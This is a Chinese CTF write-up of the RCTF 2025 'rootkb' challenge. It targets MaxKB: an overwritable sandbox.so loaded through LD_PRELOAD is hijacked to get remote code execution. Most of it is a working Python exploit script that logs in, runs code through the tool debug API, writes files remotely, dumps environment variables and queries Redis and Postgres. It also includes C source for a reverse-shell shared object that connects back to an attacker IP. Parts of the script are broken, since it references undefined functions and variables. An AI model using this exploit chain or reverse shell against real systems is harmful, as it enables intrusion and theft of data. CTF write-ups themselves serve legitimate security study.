

本文最初发表于 [SU 战队的 2025 RCTF WriteUp](https://su-team.cn/post/rctf-2025-su-wu/#rootkb)。

当时看见这题俺都惊了，为什么最新版本7~8解，低版本0解


在pycharm 上对比发现 v2.3.1 和 v2.3.0 改动发现添加了sandbox.so 和 LD_PRELOAD 环境变量且sandbox.so 允许被覆盖，那么参考 LD_PRELOAD 劫持即可



感觉开发者的修法好抽象，用sandbox.so修复了一个SSRF结果又来一个RCE，俺也不知道俺也不敢问


```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
MaxKB RCE Exploit - Complete Attack Chain
增加：远程写文件功能 write_remote_file()
"""

import requests
import json
import sys
import os
import base64
import textwrap
# Target configuration
TARGET_URL = "http://web-rootkb-minusminus-54b389641de5.rctf.rois.team"
USERNAME = "admin"
PASSWORD = "MaxKB@123.."

# API endpoints
API_BASE = f"{TARGET_URL}/admin/api"
TOOL_DEBUG_API = f"{API_BASE}/workspace/default/tool/debug"

# Session setup
session = requests.session()
session.headers.update({
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
    'Content-Type': 'application/json',
    'Accept': 'application/json'
})


def login():
    """Login to MaxKB and get JWT token"""
    login_data = {
        "username": USERNAME,
        "password": PASSWORD,
        "captcha": ""
    }
    login_api = f"{API_BASE}/user/login"

    try:
        resp = session.post(login_api, json=login_data)
        if resp.status_code == 200:
            result = resp.json()
            if 'data' in result and result['data'] and 'token' in result['data']:
                token = result['data']['token']
                session.headers['AUTHORIZATION'] = f'Bearer {token}'
                print(f"[+] Login successful!")
                print(f"[+] JWT Token: {token[:50]}...")
                return True
            else:
                print(f"[-] Login failed: {result}")
                return False
        else:
            print(f"[-] Login request failed: {resp.status_code}")
            return False
    except Exception as e:
        print(f"[-] Login error: {e}")
        return False


def execute_python_code(code):
    """Execute Python code through tool debug endpoint"""
    payload = {
        "code": code,
        "input_field_list": [],
        "init_field_list": [],
        "init_params": {},
        "debug_field_list": []
    }

    try:
        resp = session.post(TOOL_DEBUG_API, json=payload)
        if resp.status_code == 200:
            result = resp.json()
            print(result)
            return result.get('data', 'No data returned')
        else:
            return f"HTTP {resp.status_code}: {resp.text}"
    except Exception as e:
        return f"Exception: {e}"


def execute_system_command(cmd):
    """Execute system command using Python equivalents"""
    if cmd == "id":
        code = """def get_id():
        import os
        return f"uid={os.getuid()}({os.environ.get('USER', 'unknown')}) gid={os.getgid()}"
        return get_id()"""
    elif cmd == "ls /":
        code = """def ls_root():
        import os
        items = os.listdir('/')
        items.sort()
        return "\\n".join(items)
        return ls_root()"""
    elif cmd.startswith("cat "):
        filepath = cmd.split(" ", 1)[1]
        code = f"""def read_file():
        try:
            with open('{filepath}', 'r') as f:
                return f.read()
        except Exception as e:
            return f"Error: {{str(e)}}"
        return read_file()"""
    else:
        # Generic command execution（这里只是示例，用 os.listdir 代替）
        code = f"""def run_cmd():
        import os
        try:
            return str(os.listdir('{cmd}'))
        except Exception as e:
            return f"Command execution failed: {{e}}"
        return run_cmd()"""

    return execute_python_code(code)


# ========= 新增：远程写文件功能 =========
def write_remote_file(remote_path, b64_content, mode="wb"):
    """
    在目标机器上写二进制文件（从 base64 字符串解码）
    :param remote_path: 目标文件路径，例如 '/tmp/pwned.bin'
    :param b64_content: base64 编码后的内容（str）
    :param mode: 文件模式，默认 'wb'，可以传 'ab' 追加二进制
    """
    code = f"""def write_file():
        import base64
        path = {remote_path!r}
        b64_data = {b64_content!r}
        mode = {mode!r}
        try:
            data = base64.b64decode(b64_data)
            with open(path, mode) as f:
                f.write(data)
            return f"OK: wrote {{len(data)}} bytes to {{path}} with mode={{mode}}"
        except Exception as e:
            return f"Error writing to {{path}}: {{e}}"
        return write_file()"""

    return execute_python_code(code)
# ======================================

def execute_redis_command(host, port, password, command):
    """
    在目标机器上执行 Redis 命令
    :param host: Redis 服务器地址
    :param port: Redis 服务器端口
    :param password: Redis 密码，如果没有则为 None
    :param command: 要执行的 Redis 命令，以字符串形式提供，例如 "KEYS *" 或 "GET mykey"
    :return: 命令执行结果或错误信息
    """
    code = f"""def redis_cmd_runner():
        try:
            import redis
            import json
        except ImportError:
            return "Error: 'redis' library not found on the target system."

    # 将外部传入的参数赋值给内部变量
        redis_host = {host!r}
        redis_port = {port}
        redis_password = {password!r} # 如果 password 为 None，!r 会正确处理成 'None'
        command_str = {command!r}
    
        try:
        # 建立 Redis 连接
        # decode_responses=False 是默认行为，我们会手动解码，以更好地处理潜在的编码错误
            r = redis.Redis(host=redis_host, port=redis_port, password=redis_password, db=0)
        # 测试连接
            r.ping()
        
        # 将命令字符串拆分成列表，以便传递给 execute_command
            command_parts = command_str.split()
        
        # 执行命令
            raw_result = r.execute_command(*command_parts)
        
        # Redis 的返回结果通常是 bytes 或 list of bytes，需要解码
            def decode_redis_result(item):
                if isinstance(item, bytes):
                    return item.decode('utf-8', 'ignore') # 使用 ignore 以免遇到非 utf8 字符时崩溃
                elif isinstance(item, list):
                    return [decode_redis_result(i) for i in item]
                else:
                    return item # 对于数字等类型，直接返回

            result = decode_redis_result(raw_result)
        
        # 以 JSON 格式返回，统一输出
            return json.dumps(result, indent=2, ensure_ascii=False)

        except Exception as e:
            return f"Redis Error: {{e}}"

        return redis_cmd_runner()"""
    return execute_python_code(code)

def get_environment_variables():
    """
    在目标机器上获取并返回所有环境变量
    """
    code = f"""def dump_env_vars():
        import os
    
        try:
            env_data = str(os.environ)
            path = "/opt/maxkb-app/sandbox/env.txt"
            with open(path, 'w', encoding='utf-8') as f:
                f.write(env_data)
            return env_data
        except Exception as e:
            return f"Error getting environment variables: {{e}}"

        return dump_env_vars()"""
    return execute_python_code(code)

def main():
    """Main exploitation function"""
    print("=" * 60)
    print("MaxKB RCE Exploit - Complete Attack Chain")
    print("=" * 60)
    print(f"[+] Target: {TARGET_URL}")
    print(f"[+] Username: {USERNAME}")
    print(f"[+] Exploit endpoint: {TOOL_DEBUG_API}")

    # Step 1: Login
    print("\n[+] Step 1: Authentication")
    if not login():
        print("[-] Exploit failed - cannot login")
        return

    # Step 2: Test basic code execution
    print("\n[+] Step 2: Remote Code Execution")
    print("\n[*] Testing code execution:")
    code = """def test():
    return "RCE confirmed - Code execution successful!"
    return test()"""
    result = execute_python_code(code)
    print(f"[Result] {result}")

    # Step 3: System Command Execution
    print("\n[+] Step 3: System Command Execution")
    commands = ["""/opt/maxkb-app/sandbox/""", "echo 123"]

    for cmd in commands:
        print(f"\n[*] Executing: {cmd}")
        result = execute_system_command(cmd)
        print(f"[Output]\n{result}")

    # 新增：写文件测试
    print("\n[+] Step 3.5: Remote File Write Test")
    test_path = "/opt/maxkb-app/sandbox/sandbox.so"
    with open("revshell.so", "rb") as f:
        raw = f.read()

    b64_str = base64.b64encode(raw).decode("ascii")
    result = write_remote_file(test_path, b64_str)
    print(f"[Write Result] {result}")

    # 顺便读回来看是否写入成功
    print("\n[*] Read back the written file:")
    read_back = execute_system_command(f"cat {test_path}")
    print(f"[File Content]\n{read_back}")

   
    
    
       # ========= 新增步骤：与数据库交互 =========
    print("\n[+] Step 5: PostgreSQL Database Interaction")
    
    # !!! 关键 !!!
    # 这里的连接字符串需要你自己去发现。
    # 通常可以通过读取配置文件获得，例如：
    # execute_system_command("cat /opt/maxkb-app/conf/application.yml")
    # 假设我们通过某种方式得知了以下连接信息
    db_conn_str = "dbname='maxkb' user='root' host='127.0.0.1' password='Password123@postgres'"
    print(f"[*] Using DB connection string (example): {db_conn_str}")

    # 示例 1: 列出所有数据库
    print("\n[*] Query 1: Listing all databases...")
    list_db_query = "SELECT datname FROM pg_database WHERE datistemplate = false;"
    result = query_postgresql(db_conn_str, list_db_query)
    print(f"[Result]\n{result}")
    
       # ========= 新增步骤：与 Redis 服务交互 =========
    print("\n[+] Step 6: Redis Service Interaction")

    # !!! 关键 !!!
    # Redis 的连接信息也需要通过读取配置文件或其他方式来发现
    # 比如在 application.yml 中可能会有 spring.redis.host, spring.redis.port 等
    redis_host = "127.0.0.1"
    redis_port = 6379
    redis_password = "Password123@redis"  # 如果有密码，替换成 "your_redis_password"
    
    # 定义一组想要执行的 Redis 命令
    redis_commands = [
        "INFO",         # 获取 Redis 服务器信息，可以确认连接和服务版本
        "KEYS *",       # 列出所有的 key，这是最常用的探测命令
        "GET flag",     # 尝试获取一个名为 'flag' 的 key 的值
        "HGETALL user:1", # 假设有一个哈希表存储用户信息，获取所有字段和值
        "set "
    ]
    
    for cmd in redis_commands:
        print(f"\n[*] Executing Redis command: '{cmd}'")
        result = execute_redis_command(redis_host, redis_port, redis_password, cmd)
        print(f"[Result]\n{result}")

    # ==========================================
    if exploit_result and "Success" in exploit_result:
        print(f"[+] {exploit_result}")
        print("[!] On a vulnerable version, this could lead to RCE!")
    else:
        print(f"[-] {exploit_result}")
        
    print("\n" + "=" * 60)
    print("[+] EXPLOIT FINISHED")
    print("=" * 60)


if __name__ == "__main__":
    main()

```

```c
// 文件名: revshell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

// 这是一个构造函数，当 .so 文件被加载时，它会自动运行。
void _revshell_init(void) __attribute__((constructor));

void _revshell_init(void) {
    // --- 在这里修改为你自己的 IP 和端口 ---
    const char *ip = "xxxx"; // <--- 修改这里
    const int port = 9999;               // <--- 修改这里
    // ------------------------------------

    int sockfd;
    struct sockaddr_in addr;

    // 1. 创建一个 socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        // 创建失败，安静地退出
        return;
    }

    // 2. 设置要连接的目标地址和端口
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    // 将 IP 地址字符串转换为网络格式
    if (inet_pton(AF_INET, ip, &addr.sin_addr) <= 0) {
        close(sockfd);
        return;
    }

    // 3. 连接到攻击者的监听器
    if (connect(sockfd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
        close(sockfd);
        return;
    }

    // 4. I/O 重定向：这是最关键的一步
    // 将标准输入(0)、标准输出(1)和标准错误(2)全部重定向到我们的 socket
    dup2(sockfd, 0); // STDIN
    dup2(sockfd, 1); // STDOUT
    dup2(sockfd, 2); // STDERR

    // 5. 启动一个 shell
    // execve 会用 /bin/sh 进程替换掉当前进程
    // 因为我们已经重定向了 I/O，这个 shell 的所有输入输出都会通过 socket 传输
    execve("/bin/sh", NULL, NULL);

    // 如果 execve 成功，下面的代码将不会被执行
    close(sockfd);
}
```

VPS 上接收shell ，获得FLAG


